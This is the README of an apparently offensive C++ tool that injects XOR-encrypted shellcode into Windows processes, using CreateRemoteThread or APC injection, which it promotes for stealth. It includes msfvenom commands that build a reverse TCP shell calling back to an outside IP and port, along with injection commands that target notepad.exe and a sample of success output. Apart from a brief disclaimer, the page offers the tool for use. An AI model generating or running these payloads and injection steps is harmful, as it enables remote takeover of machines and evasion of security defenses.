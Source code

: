 # 🔥 Memory Manipulation Utility 🔥

> A powerful C++ tool to read, XOR‑encrypt/decrypt, and inject hex shellcode into Windows processes via CreateRemoteThread or APC injection. 🛠️💉

---

## 🚀 Features

- 📂 **Hex Payload I/O**: Read and write hex‑encoded shellcode files
- 🔑 **XOR Encryption/Decryption**: Secure your payload at rest with a key, decrypt in-memory just before execution
- 💉 **Injection Methods**:
  - **CreateRemoteThread** injection
  - **APC (Asynchronous Procedure Call)** injection for stealth
- 🔍 **Payload Validation**:
  - PE header check (MZ)
  - Entropy analysis to detect invalid data
- 🎛️ **Flexible CLI**: Intuitive options for encryption, decryption, and injection

---

## 📋 Requirements

- Windows OS (x64)
- Visual Studio or a compatible C++17 compiler
- **msfvenom** (part of Metasploit) for shellcode generation

---

## ⚙️ Installation & Build

1. Clone this repo:
   ```bash
   git clone https://github.com/ShorterKing/Hexinjector-XOR.git
   cd memory-manipulation-utility
   ```
2. Build with Visual Studio or via CLI:
   ```powershell
   cl /std:c++17 /O2 main.cpp /link /out:memutil.exe
   ```

---

## 🐍 Generating Hex Shellcode with msfvenom

Generate a reverse TCP shell (unencrypted):

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=172.26.243.224 LPORT=4444 -f hex -o payload.hex
```

Generate and XOR-encrypt in one step:

```bash
msfvenom -p windows/x64/shell_reverse_tcp --encrypt xor --encryption-key hacker LHOST=172.26.243.224 LPORT=4444 -f hex -o payload_encrypted.hex
```

---

## 💻 Usage

```bash
memutil.exe [options]
```

| Option | Description                                                      | Example                                                        |
|:------:|:-----------------------------------------------------------------|:---------------------------------------------------------------|
| `-i`   | Input hex payload file                                           | `-i payload.hex`                                               |
| `-p`   | Target process PID or executable name                            | `-p notepad.exe` or `-p 1234`                                  |
| `-x`   | XOR key for encryption/decryption                                | `-x secret123`                                                 |
| `-e`   | **Encrypt** mode: specify output file (will not inject)          | `-e encrypted_payload.hex`                                     |
| `-a`   | Use **APC** injection instead of CreateRemoteThread              | `-a`                                                           |
| `-h`   | Display help                                                     | `-h`                                                           |


### 🔒 Encrypt Payload (no injection)

```bash
memutil.exe -i payload.hex -e payload_enc.hex -x myKey
```

- Reads `payload.hex` ➡️ XOR‑encrypts with key `myKey` ➡️ writes `payload_enc.hex`

### 💉 Inject Payload

1. **Raw** payload into Notepad:
   ```bash
   memutil.exe -i payload.hex -p notepad.exe
   ```
2. **Encrypted** payload (decrypt & inject):
   ```bash
   memutil.exe -i payload_enc.hex -p 1234 -x myKey
   ```
3. **APC** injection:
   ```bash
   memutil.exe -i payload.hex -p notepad.exe -a
   ```

---

## 🔍 How It Works

1. **ReadHexFile**: Parses `.hex` into a byte vector
2. **XORData**: Applies XOR with key (same function for encrypt/decrypt)
3. **ValidatePayload**: Checks PE signature (`0x4D 0x5A`) and entropy
4. **Injection**:
   - **CreateRemoteThread**: Standard remote thread creation
   - **APC**: Queues an Asynchronous Procedure Call on a target thread for stealth

---

## 📝 Example Output

```
[+] Read 512 bytes from payload.hex
[+] XOR decryption applied with key: myKey
[+] Payload appears to be a valid PE executable
[+] Resolved process notepad.exe to ID: 4321
[+] Successfully injected payload into process 4321
[+] Operation completed successfully
```

---

## ⚠️ Disclaimer

> **For educational and authorized penetration testing only!**
> Misuse of this tool against systems without permission is illegal.

---

## 🙏 Contributions

Feel free to ⭐️ the repo and submit PRs to improve functionality! 🛠️

---

© 2025 Akshat Singh • [Apache License 2.0](LICENSE)

